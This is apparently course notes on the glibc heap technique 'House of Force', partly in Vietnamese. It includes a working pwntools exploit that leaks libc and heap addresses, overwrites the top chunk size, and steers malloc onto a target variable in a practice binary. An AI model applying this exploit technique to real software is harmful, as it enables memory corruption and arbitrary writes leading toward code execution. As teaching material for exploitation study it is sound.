




# Scenery

- Sau khi ép được `malloc` trả về arbitrary pointer, ta có thể thoải mái tương tác với ptr đó (`read`, `write`...)
- Từ đó nâng lên leak, overwrite, rce...

# POC

This script come along with binary file in course.

Our goal is overwrite the `target` variable in binary. There is an obivious overflow when read data, we abuse this to modify next chunk size, in this example is `top chunk`, to trigger the `house of force`.

```
from pwn import *

exe = ELF("./house_of_force")
libc = ELF(exe.runpath + b"/libc.so.6")
context.binary = exe

debug = lambda : gdb.attach(p, gdbscript = script)

def malloc(size, data):
	p.sendafter(b"> ", b"1")
	p.sendafter(b"size: ", f"{size}".encode())
	if(data != b""):
		p.sendafter(b"data: ", data)

'''
read_num in main
'''

script = '''
b *0x000000000040093E
'''

p = process("./house_of_force")

# leak libc and heap
p.recvuntil(b"puts() @ ")
libc_base = int(p.recvline(), 16) - libc.symbols['puts']
p.recvuntil(b"heap @ ")
top_chunk = int(p.recvline(), 16) + 0x20
target = 0x602010

#debug()
# overwrite top chunk with -1
malloc(0x18, b"A" * 0x18 + p64(0xffffffffffffffff))

# malloc large size to fill the gap
## VA address works like a circle
bridge = (((1 << 64) + target) - top_chunk - 8) - 0x10
## strtoul work with long int (signed)
## can change this to bridge if its unsigned
## since the `nbytes` is large -> read() wont works normally
malloc(bridge - (1 << 64), b"")

# malloc to target
malloc(0x18, b"WINNNNNNNN")
p.sendafter(b"> ", b"2")

p.interactive()
```

# Idea

After the first `malloc` we overwrite top chunk with large size (`-1`).



Since we already know the address of `top chunk` (via heap leak) and `target` (no PIE), we need to fill the gap of them first. Although `target` is before `top chunk` in memory, the bridge size can be calculated. Because the virtual address only 8 bytes, it can overflow (like a circle).

```
bridge = (((1 << 64) + target) - top_chunk - 8) - 0x10
```

We subtract `0x10` so after `malloc`, the `top chunk` will right before the target.

```
>>> hex(0x10000000000000000 + 0x602010 - 0x201f4020 - 8 - 0x10)
'0xffffffffe040dfd8'
```



After the padding `malloc`:



We can see the top chunk is right before the target as expected, , then the next `malloc` will return a `target` pointer, we can modify it.


